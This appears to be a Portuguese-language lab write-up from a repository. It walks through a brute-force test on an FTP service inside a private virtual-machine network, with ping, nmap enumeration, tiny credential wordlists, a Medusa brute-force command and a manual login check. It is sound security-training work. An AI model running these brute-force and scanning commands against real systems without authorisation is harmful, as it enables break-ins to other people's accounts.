






## 🔐 Passo a Passo do Teste em FTP

Abaixo estão as etapas realizadas para validar a comunicação entre as máquinas virtuais e executar um teste de força bruta no serviço FTP utilizando o Medusa.

### 1. Verificar comunicação entre as VMs

Primeiro foi realizado um teste de conectividade entre a máquina atacante e a máquina vulnerável para confirmar que a rede estava funcionando corretamente.

```bash
ping -c 4 192.168.56.103
```

**Objetivo:**  
Confirmar que as máquinas virtuais conseguem se comunicar pela rede interna.



---

### 2. Enumerar serviços disponíveis

Em seguida foi feita a enumeração dos principais serviços expostos pela máquina alvo.

```bash
nmap -sV -p 21,22,80,445,139 192.168.56.103
```

**Objetivo:**  
Identificar quais serviços estão ativos e verificar se o FTP está disponível.



---

### 3. Confirmar acesso ao serviço FTP

Após identificar o serviço FTP, foi realizado um teste manual de conexão.

```bash
ftp 192.168.56.103
```

**Objetivo:**  
Validar que o serviço FTP está realmente ativo e acessível.



---

### 4. Criar wordlists simples

Foram criadas listas com nomes de usuários e senhas comuns para o teste.

#### Lista de usuários

```bash
echo -e 'user\nmsfadmin\nadmin\nroot' > users.txt
```

#### Lista de senhas

```bash
echo -e '123456\npassword\nqwerty\nmsfadmin' > pass.txt
```

**Objetivo:**  
Preparar credenciais básicas para o ataque de força bruta.



---

### 5. Executar ataque de força bruta com Medusa

Com as wordlists prontas, foi iniciado o ataque automatizado.

```bash
medusa -h 192.168.56.103 -U users.txt -P pass.txt -M ftp -t 6
```

**Parâmetros utilizados:**

- `-h` → Host alvo  
- `-U` → Lista de usuários  
- `-P` → Lista de senhas  
- `-M ftp` → Módulo FTP  
- `-t 6` → Número de threads



---

### 6. Validar credenciais encontradas

Após a descoberta das credenciais válidas, o acesso foi testado manualmente.

```bash
ftp 192.168.56.103
```

**Objetivo:**  
Confirmar que o login identificado pelo Medusa funciona corretamente.



---
